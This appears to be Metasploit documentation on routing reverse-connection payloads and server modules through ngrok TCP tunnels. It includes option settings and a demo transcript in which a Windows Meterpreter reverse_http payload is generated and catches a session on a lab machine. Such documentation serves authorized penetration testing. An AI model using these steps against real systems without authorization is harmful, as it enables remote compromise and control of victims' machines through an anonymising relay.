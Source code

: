 # Overview
[ngrok][1] is a popular service that offers free port-forwarding that is easy to setup without needing to run a
dedicated server on a public IP address (as is the case with SSH, socat and other more traditional options. This means
that users behind a SNATing device such as a SOHO router can accept reverse shells and other connections without needing
to configure port forwarding.

**WARNING:** The nature of using ngrok is to send traffic through a third party. ngrok and the server which it utilizes
are not affiliated with the Metasploit project. Use of ngrok effectively sends traffic through an untrusted third party
and should be done with extreme caution. While Meterpreter has offered end-to-end encryption since Metasploit 6.0, other
payloads and connections do not.

ngrok can start multiple types of tunnels. The `tcp` tunnel is compatible with Metasploit's payloads and most closely
resembles a traditional port-forwarding configuration. The `http` tunnel type is not compatible with payloads, and
should not be used. The `tls` tunnel type may be compatible, but access to it is restricted to the Enterprise and 
Pay-as-you-go paid plans. This document will focus on the use cases for the `tcp` tunnel type. Note that one limitation
is that the public port can not be configured, it is randomly selected by ngrok meaning that the target will need to be
able to connect to this high, obscure port which may be prevented by egress filtering.

## Usage with payloads
Use with payloads can be achieved with any of the reverse-connection stagers that accept `LHOST` and `LPORT` options,
e.g. reverse_tcp, reverse_http, reverse_https, etc. but not reverse_named_pipe. In the following scenario, ngrok will be
used to forward a random public port to the Metasploit listener on port 4444. This scenario assumes that Metasploit and
ngrok are running on the same host.

1. Start a TCP tunnel using ngrok: `ngrok tcp localhost:4444`.
1. ngrok should start running and display a few settings, including a line that says "Forwarding". Note the host and IP
   address from this line, e.g. `4.tcp.ngrok.io:13779`
1. Start msfconsole and use the desired payload or exploit module.
  * Using `msfconsole` for both generating the payload and handling the connection is recommended over using `msfvenom`
    for two reasons.
    1. Using `msfvenom` starts up an instance of the framework to generate the payload, making it a slower process.
    2. Using `msfconsole` to configure both the payload and handler simultaneously ensures that the options are set for
       both, eliminating the possibility that they are out of sync.
1. Set the `LHOST` option to the address noted in step 2, `4.tcp.ngrok.io` in the example. This is where the payload is
   expecting to connect to.
1. Set the `LPORT` option to the port noted in step 2, `13779` in the example.
1. Set the `ReverseListenerBindAddress` option to `127.0.0.1`. This is where the connection will actually be accepted
   from ngrok.
1. Set the `ReverseListenerBindPort` option to `4444`.
1. Either run the exploit, or generate the payload with the `generate` command and start the handler with `to_handler`

Once the payload has been executed, either through the exploit or manual means, there should be a open connection seen
through the ngrok terminal.

### Payload Demo

ngrok side:
```
$ ngrok tcp localhost:4444
ngrok                                                           (Ctrl+C to quit)

Take our ngrok in production survey! https://forms.gle/aXiBFWzEA36DudFn6

Session Status                online
Account                       ????? (Plan: Personal)
Version                       3.16.0
Region                        United States (us)
Latency                       33ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://0.tcp.ngrok.io:17511 -> localhost:4444

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```

metasploit side:
```
msf6 > use payload/windows/x64/meterpreter/reverse_http
msf6 payload(windows/x64/meterpreter/reverse_http) > set LHOST 0.tcp.ngrok.io
LHOST => 0.tcp.ngrok.io
msf6 payload(windows/x64/meterpreter/reverse_http) > set LPORT 17511
LPORT => 17511
msf6 payload(windows/x64/meterpreter/reverse_http) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 payload(windows/x64/meterpreter/reverse_http) > set ReverseListenerBindPort 4444
ReverseListenerBindPort => 4444
msf6 payload(windows/x64/meterpreter/reverse_http) > to_handler 
[*] Payload Handler Started as Job 2
msf6 payload(windows/x64/meterpreter/reverse_http) > 
[*] Started HTTP reverse handler on http://127.0.0.1:4444

msf6 payload(windows/x64/meterpreter/reverse_http) > generate -f exe -o ngrok_payload.exe
[*] Writing 7168 bytes to ngrok_payload.exe...
msf6 payload(windows/x64/meterpreter/reverse_http) > 
[*] http://127.0.0.1:4444 handling request from 127.0.0.1; (UUID: ghzekibo) Staging x64 payload (202844 bytes) ...
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:55468) at 2024-09-10 16:43:58 -0400

msf6 payload(windows/x64/meterpreter/reverse_http) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: MSFLAB\smcintyre
meterpreter >
```

## Usage with server modules
Some modules expect connections to be made to them by the target. These modules can also be used with ngrok, with some
slight variations to the payload workflow in regards to their datastore options. Modules that start servers can be
identified by using the `SRVHOST` and `SRVPORT` datastore options.

**NOTE:** Free ngrok plans can only open one tcp tunnel at a time. This means that if the module is an exploit that a
tcp tunnel for a reverse-connection payload will not be able to be opened at the same time. Use a second ngrok account
to open a second tcp tunnel and follow the steps above for the payload configuration.

1. Start a TCP tunnel using ngrok: `ngrok tcp localhost:4444`.
1. ngrok should start running and display a few settings, including a line that says "Forwarding". Note the host and IP
   address from this line, e.g. `4.tcp.ngrok.io:13779`
1. Start msfconsole and use the desired module.
1. Set the `SRVHOST` option to the address noted in step 2, `4.tcp.ngrok.io` in the example. This is where the payload is
   expecting to connect to.
1. Set the `SRVPORT` option to the port noted in step 2, `13779` in the example.
1. Set the `ListenerBindAddress` option to `127.0.0.1`. This is where the connection will actually be accepted
   from ngrok.
1. Set the `ListenerBindPort` option to `4444`.
1. Run the module

[1]: https://ngrok.com/
